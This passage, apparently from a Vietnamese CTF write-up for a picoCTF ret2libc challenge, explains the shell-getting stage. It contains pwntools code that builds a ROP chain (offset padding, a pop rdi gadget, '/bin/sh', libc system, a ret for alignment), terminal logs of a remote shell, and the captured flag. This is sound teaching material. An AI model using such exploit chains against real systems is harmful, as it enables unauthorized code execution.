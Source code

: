 ### *Stage 2: Get shell*
- Chương trình đang thực thi lại hàm do_stuff, nên ta vẫn có offset = 0x88
- Ta đã leak đc libc_base nên có thể thực thi đc luôn hàm system("/bin/sh") trong library C.
- Ta có thể tìm địa chỉ con trỏ trỏ đến chuỗi /bin/sh bằng next rồi đưa vào pop rdi là có thể cho thực thi đc system
- Ta có script:
```py
bin_sh = next(libc.search(b'/bin/sh'))
payload = flat(b'a'*0x88, pop_rdi, bin_sh, libc.sym.system)
p.sendline(payload)
```
- Thử nộp lên local xem lấy đc shell chưa:
```sh
$ ./solve.py
[+] Starting local process '/mnt/d/Documents/ISP/PractiseTask1/ret2libc/vuln_patched': pid 1869
libc_base:  0x76c17a1a7000
[*] Switching to interactive mode

AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaaaaaaaaaaaaaaaaaaaaad
[*] Got EOF while reading in interactive
$
```
- Chưa được thì khả năng bị dính 16-byte aligned trước khi gọi system, vậy sẽ chèn thêm lệnh ret trước khi thực thi system vậy.
```py
ret = 0x000000000040052e
bin_sh = next(libc.search(b'/bin/sh'))
payload = flat(b'a'*0x88, ret, pop_rdi, bin_sh, libc.sym.system)
p.sendline(payload)
```
- Gửi lên local thấy oke rồi nộp lên sever và lấy cờ thôi:
```sh
$ ./solve.py r
[+] Opening connection to mercury.picoctf.net on port 49464: Done
libc_base:  0x7f908709a000
[*] Switching to interactive mode

AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaaaaaaaaaaaaaaaaaaaaad
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}$
```
